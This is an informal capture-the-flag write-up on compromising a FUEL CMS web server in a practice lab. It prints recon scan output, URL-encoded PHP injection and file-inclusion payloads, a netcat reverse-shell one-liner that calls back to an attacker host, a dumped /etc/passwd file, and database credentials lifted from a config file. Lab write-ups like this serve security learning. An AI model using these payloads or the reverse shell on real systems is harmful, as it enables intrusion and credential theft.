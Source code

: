 # Ignite -> A new start-up has a few issues with their web server.

```
export IP=10.10.192.215
```

- Took my first look at the `robots.txt` file and got some clues already. :)
- Nmap scan came back and doesnt look encouraging at all.
```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-20 16:13 GMT
Nmap scan report for 10.10.192.215
Host is up (0.54s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

```

- Results from gobuster scan.
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/0 (Status: 200)
/assets (Status: 301)
/home (Status: 200)
/index.php (Status: 200)
/index (Status: 200)
/offline (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)

```

- Something tells me that `/fuel` path that has a disallowed access is fishy.

- got some payload of the internet 
```
http://10.10.192.215/fuel/pages/select/?nocache=1507880376191&input=&target=&title=&class=&pdfs=&filter=%3C%3F%20phpinfo%28%29%3B%20%20%3F%3E

%3C%3F%20include_path%3D%27/etc/passwd%27%3B%20%20%3F%3E

%3C%3F%20include_path%3D%27/../../../../../etc/passwd%27%3B%20%20%3F%3E

%3C%3F%20include%20%27/etc/passwd%27%3B%20%20%3F%3E

%3C%3F+include+%27%2Fetc%2Fpasswd%27%3B++%3F%3E

%27%2b phpinfo() %2b%27
```

- It works now i just have to build my payload and use it to read some daunting files from the system.
- Ive tried things, nothing works on the website and it gives no info. Went to read some walkthroughs and stuff like that. Even went to look for vulnerabilities associated with the version of fuel cms used but it still gave me headache. I have not given up.. i am just going to learn new ways LOL.

- I got an exploit that allowed remote code execution on the target system, through fuel cms. About to get reverse shell now.
```
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 9999 >/tmp/f"

```

- /etc/passwd file
```
systemroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false

```


- I was looking around the php files in the fuel directory and found this. Meanwhile my linpeas script is also running... lemme go and check what it found.
```php
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);
```

- Linpeas didnt bring anything useful to the table. I got root which i couldnt wait to get and boom got the flag LOL! ...


